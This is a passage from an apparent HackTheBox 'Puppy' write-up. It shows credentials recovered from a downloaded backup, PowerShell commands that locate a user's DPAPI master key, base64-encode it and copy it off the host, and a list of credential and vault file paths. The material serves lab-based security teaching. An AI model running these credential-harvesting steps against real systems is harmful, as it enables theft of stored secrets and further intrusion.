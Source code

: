 Browsing through, we see a *Backups* folder that contains a zip file. We can download this file using Evil-WinRM's `download` option and open it up on our local machine.
![backup files found](/images/htb/machines/Puppy/backup-exposed.png)

After extracting the files from the backup, there is an interesting file `nms-auth-config.xml.bak`. 
This file provides us with additional credentials as well -
![steph-cooper-pwn](/images/htb/machines/Puppy/steph-cooper-password.png)

- New credentials: `steph.cooper:ChefSteph2025!`

Testing it out with nxc again - 
![steph cooper owned](/images/htb/machines/Puppy/steph-cooper-owned.png)

Based on what we have seen so far, `Steph Cooper` has 2 accounts - 
- Mortal Account - `steph.cooper:ChefSteph2025!`
- Admin Account - `steph.cooper_adm`

There might be stored credentials on the machine itself. With our current terminal access, we can move on to attempting to searches for DPAPI credentials. If we can get the credentials and master key, we can attempt to decrypt and get plaintext credentials to move further.

### Grabbing DPAPI Master Key

We can look for these sensitive files in the following directories - 
```
Get-ChildItem C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\steph.cooper\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Local\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\
```

In our case, the file exists in `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\`

You can use `ls -Hidden` to review the files as needed. Once you have access to the master key, you can copy it over to your local host

```
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407"))
```

We can then use the following command to decode the resulting base64 on the host.
```
echo "{base64 of master key}" | base64 -d > master.key
```

### Grabbing DPAPI Encrypted Files
These **protected files** for common users are in:

- `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\*`
- `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\*`
- `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Vault\*`
- Check also changing `\Roaming\` to `\Local\` in the above paths.

